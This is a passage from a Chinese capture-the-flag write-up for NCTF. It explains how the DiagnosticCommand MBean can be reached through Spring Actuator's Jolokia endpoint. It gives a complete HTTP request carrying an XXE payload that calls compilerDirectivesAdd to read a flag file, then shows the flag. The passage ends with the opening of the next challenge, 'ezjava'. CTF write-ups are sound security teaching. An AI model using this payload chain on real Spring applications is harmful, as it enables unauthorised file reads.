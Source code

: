 ![img](https://gitee.com/leonsec/images/raw/master/upload_91366666810f8650373a58f98968a08d.png)

有一个可以读写文件的Mbean：

com.sun.management:type=DiagnosticCommand

判断远程环境是否存在这个Mbean：

![img](https://gitee.com/leonsec/images/raw/master/upload_756e7a888c7a3632a51520653e215cfd.png)

如果不存在返回的是上图，如果存在返回的是下图两种情况

![img](https://gitee.com/leonsec/images/raw/master/CA25B2D3D6D42FB0C39D25EEB82E1482-8193819.png)

exp:

```http
POST /user/list HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Cookie: JSESSIONID=4E8E18623EC2DEB1675E56DF8955D33B
Content-Type: application/xml
Content-Length: 194

<?xml version="1.0"?>
<!DOCTYPE dy [
<!ENTITY dy SYSTEM "http://127.0.0.1:8080/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/flag">
]>
<id>&dy;</id>
```

flag:

```
NCTF{Spring_actuator_And_Jolokia_1S_So_fun_by_the_way_we1com3_to_join_API_Security_Community_yulige_yyds_wysb}
```

### ezjava

> 出题人ID：Pupi1
>
> 题目描述：
> 戴教授才开放了2天的文件管理系统，还没完成就被黑客拿下了，并往里面藏了一点东西
> http://129.211.173.64:8080/html/index.html
> http://129.211.173.64:8081/html/index.html
>
> 附件链接：
>
> 链接：https://pan.baidu.com/s/1jB6Kcy478ashRtxEFJP1bQ
> 提取码：nctf
> https://wwn.lanzoui.com/iamSDwyi0pe
> https://attachment.h4ck.fun:9000/web/ezjava/nctf.war
